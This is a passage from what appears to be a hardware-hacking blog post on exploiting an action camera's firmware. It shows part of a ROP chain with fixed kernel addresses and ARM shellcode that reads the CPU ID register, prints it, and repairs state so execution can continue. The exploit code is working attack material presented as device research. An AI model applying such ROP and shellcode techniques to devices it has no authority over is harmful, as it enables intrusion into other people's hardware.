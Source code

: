 ```
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0x00000000) # r6 
rop_chain += p32(0xc03edf0c) # r7
rop_chain += p32(0xc08e4ee0) # r8 
rop_chain += p32(0x00000000) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc057248c) # pc

# | 0xc057248c | c057248c | ldr r5,[r8,#0x0] | c0572490 | blx r7 | 
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
```

So now we can execute as much arbitrary shellcode as we want! Note that we will still need to do the expected fix up to continue execution.

# Testing Shellcodes

Now that we have got execution, lets see if we can use our new found access to answer earlier questions.

## What is the CPU?

ARM CPUs have a Main ID register (MIDR) which can be fetched with **mrc p15, #0, r1, c0, c0, #0**. The response can be broken down into the following:

![midr.png](/assets/images/analysing_an_action_camera_part_4/midr.png)

Here is a shellcode I put together to fetch this register and print the contents:

```
-python
    @ load chip ID register
    mrc p15, #0, r1, c0, c0, #0
    @ print chip ID
    adr r0, fmt_string
    ldr r3, =0xc01a79a0
    blx r3
    @ print fixing state string
    adr r0, fixing_state_string
    ldr r3, =0xc01a79a0
    blx r3
    @ fixup
    ldr r3, =#0xc09ae8d4
    ldr r2, [r3,#0x0]
    ldr r5, =#0x5d4
    ldr r6, =#0xc02202e4
    ldr r7, =#0xc09afec0
    add r11, r2, r5
    blx r6
fmt_string:
    .asciz "\033[35m[PWN]\033[0m CPU ID REGISTER CONTENTS: 0x%x\\n"
fixing_state_string:
    .asciz "\033[35m[PWN]\033[0m FIXING UP STATE\\n"
```
